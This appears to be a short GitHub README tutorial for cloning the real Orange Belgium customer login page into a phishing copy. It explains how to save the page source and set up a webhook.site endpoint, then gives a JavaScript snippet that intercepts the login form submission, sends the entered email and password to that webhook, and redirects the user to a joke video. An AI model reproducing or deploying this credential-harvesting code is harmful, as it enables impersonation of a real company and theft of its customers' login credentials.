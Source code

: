 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script
> ´ let myForm = document.getElementById('sso-form');
>  let formEmail = document.getElementById('sso-email');
>  let formPassword = document.getElementById('sso-password');
>  
>  myForm.addEventListener('submit', (e) => {
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', {
>       method: "POST",
>        body: JSON.stringify({
>            username: formEmail.value,
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley");
>  })`
